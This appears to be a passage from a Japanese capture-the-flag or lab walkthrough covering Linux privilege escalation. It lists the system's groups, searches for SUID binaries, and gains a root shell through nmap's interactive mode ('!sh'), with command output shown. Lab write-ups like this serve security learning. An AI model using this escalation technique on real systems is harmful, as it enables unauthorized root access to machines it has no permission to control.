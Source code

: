 ```shell
users:x:100:
nogroup:x:65534:
libuuid:x:101:
netdev:x:102:
crontab:x:103:
syslog:x:104:
ssh:x:105:
ftp:x:106:
bitnami:x:1000:
admin:x:107:
mysql:x:1001:
varnish:x:999:
robot:x:1002:
```

特になし

### suid

suid ビットがセットされているファイルを検索する

```shell
$ find / -perm -u=s -type f 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
```

nmap はデフォルトで suid がセットされるコマンドではない

### nmap

```shell
$ nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# whoami
root
```

